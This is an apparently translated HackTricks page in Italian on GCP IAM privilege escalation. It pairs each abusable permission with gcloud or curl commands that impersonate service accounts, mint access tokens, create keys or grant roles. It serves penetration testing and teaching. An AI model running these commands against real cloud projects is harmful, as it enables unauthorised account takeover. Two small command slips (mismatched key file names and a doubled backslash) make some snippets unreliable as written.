 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

Trova ulteriori informazioni su IAM in:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Un attaccante con i permessi menzionati sarà in grado di aggiornare un ruolo assegnato a te e darti permessi extra su altre risorse come:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Puoi trovare uno script per automatizzare la **creazione, sfruttamento e pulizia di un ambiente vulnerabile qui** e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Un attaccante con i permessi menzionati sarà in grado di **richiedere un token di accesso che appartiene a un Service Account**, quindi è possibile richiedere un token di accesso di un Service Account con più privilegi dei nostri.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Un attaccante con i permessi menzionati sarà in grado di **creare una chiave gestita dall'utente per un Service Account**, che ci permetterà di accedere a GCP come quel Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Nota che **`iam.serviceAccountKeys.update` non funzionerà per modificare la chiave** di un SA perché per farlo sono necessarie anche le autorizzazioni `iam.serviceAccountKeys.create`.

### `iam.serviceAccounts.implicitDelegation`

Se hai il permesso **`iam.serviceAccounts.implicitDelegation`** su un Service Account che ha il permesso **`iam.serviceAccounts.getAccessToken`** su un terzo Service Account, allora puoi usare implicitDelegation per **creare un token per quel terzo Service Account**. Ecco un diagramma per aiutare a spiegare.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Nota che secondo la [**documentazione**](https://cloud.google.com/iam/docs/understanding-service-accounts), la delega di `gcloud` funziona solo per generare un token utilizzando il metodo [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken). Quindi qui hai come ottenere un token utilizzando direttamente l'API:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Un attaccante con i permessi menzionati sarà in grado di **firmare payload arbitrari in GCP**. Quindi sarà possibile **creare un JWT non firmato del SA e poi inviarlo come blob per ottenere il JWT firmato** dal SA che stiamo prendendo di mira. Per ulteriori informazioni [**leggi questo**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) e [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Un attaccante con i permessi menzionati sarà in grado di **firmare token web JSON (JWT) ben formati**. La differenza con il metodo precedente è che **invece di far firmare a Google un blob contenente un JWT, utilizziamo il metodo signJWT che si aspetta già un JWT**. Questo rende più facile l'uso, ma puoi solo firmare JWT invece di qualsiasi byte.

Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) e uno script python per abusare di questo privilegio [**qui**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Per ulteriori informazioni, controlla la [**ricerca originale**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Un attaccante con i permessi menzionati sarà in grado di **aggiungere politiche IAM agli account di servizio**. Puoi abusarne per **concederti** i permessi di cui hai bisogno per impersonare l'account di servizio. Nel seguente esempio ci stiamo concedendo il ruolo `roles/iam.serviceAccountTokenCreator` sull'SA interessante:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Puoi trovare uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

Il **permesso iam.serviceAccounts.actAs** è simile al **permesso iam:PassRole di AWS**. È essenziale per eseguire compiti, come avviare un'istanza di Compute Engine, poiché concede la possibilità di "agire come" un Service Account, garantendo una gestione sicura dei permessi. Senza questo, gli utenti potrebbero ottenere accessi indebiti. Inoltre, sfruttare il **iam.serviceAccounts.actAs** comporta vari metodi, ognuno dei quali richiede un insieme di permessi, a differenza di altri metodi che necessitano solo di uno.

#### Impersonificazione dell'account di servizio <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Impersonare un account di servizio può essere molto utile per **ottenere nuovi e migliori privilegi**. Ci sono tre modi in cui puoi [impersonare un altro account di servizio](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

* Autenticazione **utilizzando chiavi private RSA** (trattato sopra)
* Autorizzazione **utilizzando le politiche di Cloud IAM** (trattato qui)
* **Distribuzione di lavori sui servizi GCP** (più applicabile al compromesso di un account utente)

### `iam.serviceAccounts.getOpenIdToken`

Un attaccante con i permessi menzionati sarà in grado di generare un OpenID JWT. Questi vengono utilizzati per affermare l'identità e non portano necessariamente alcuna autorizzazione implicita contro una risorsa.

Secondo questo [**interessante post**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), è necessario indicare il pubblico (servizio in cui si desidera utilizzare il token per autenticarsi) e riceverai un JWT firmato da google che indica l'account di servizio e il pubblico del JWT.

Puoi generare un OpenIDToken (se hai accesso) con:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Poi puoi semplicemente usarlo per accedere al servizio con:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Alcuni servizi che supportano l'autenticazione tramite questo tipo di token sono:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (se si utilizza Google OIDC)

Puoi trovare un esempio su come creare un token OpenID per conto di un account di servizio [**qui**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

